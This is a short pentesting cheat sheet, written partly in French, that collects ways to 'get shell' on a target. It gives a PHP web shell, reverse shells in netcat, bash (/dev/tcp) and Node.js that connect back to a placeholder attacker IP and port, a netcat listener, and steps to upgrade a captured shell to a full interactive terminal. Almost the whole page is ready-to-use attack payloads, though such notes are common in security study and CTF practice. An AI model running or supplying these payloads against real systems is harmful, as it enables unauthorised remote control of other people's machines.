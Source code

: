 ```yaml
---
description: I'll add way to get shells as i'll use them
---
```


# Get Shell

* Those lines are to use on the target, on the attacker we'll use `nc -lvpn <port>` to receive the connection.
* Check [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for more example

## PHP

```php
<?php
    system($_REQUEST['cmd']);
?>
```

## Netcat

`nc -e /bin/sh <host> <port>`

## Bash

```bash
# on target
bash -i >& /dev/tcp/<ip>/<port> 0>&1
# des fois il faut l'entourer ainsi
bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'
```

* `/dev/tcp` est fournit directement par bash et n'existe que pour les redirections
* `-i` permet de créer un shell interactif
* `>&` Redirige STDOUT et STDERR du shell vers la connection
* `0>&1` Redirige STDIN \(de la co\) vers STDOUT \(de la co je pense\)
* `bash -c` permet de s'assurer que c'est bash et non un autre shell de la machine qui exécutera la commande, c'est nécessaire car /dev/tcp n'est fournit que par lui

## Node

```javascript
(function(){
    var cp = require("child_process");
    var sh = cp.spawn("/bin/sh", []);
    var net = require("net");
    var client = new net.Socket();
    client.connect(my_port, "my_ip", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js app from crashing
})();
```

## Metasploit

* Un shell donné par metasploit ne sera pas forcément persistant, aka tu peux utiliser que des 1 liners parce que l'état n'est pas conservé \(genre un cd te déplacera pas\)

## Upgrade your shell

* Les shells qu'on récupère ainsi sont rarement pratique, ils réagissent mal au tab, n'ont pas d'auto-completion, se ferme avec CTRL-C, etc.
* Pour récupérer un vrai shell. suivre ces étapes : 
  * Sur la victime, spawn un shell via python \(testé avec python3 si le 2 n'est pas dispo\)`python -c 'import pty; pty.spawn("/bin/bash")'`
  * Sur l'attaquant, check notre type de terminal `echo $TERM`
  * Sur la victime, export ces 2 var : `export TERM=...` & `export SHELL=/bin/bash`
  * Ctrl-z sur la victime
  * Ca nous remets sur l'attaquant, check les diffs du terminal avec `stty size`
  * Lancer \(toujours sur l'attaquant\) `stty raw -echo;fg`
  * Taper `reset`
  * Taper `stty rows ... columns ...`

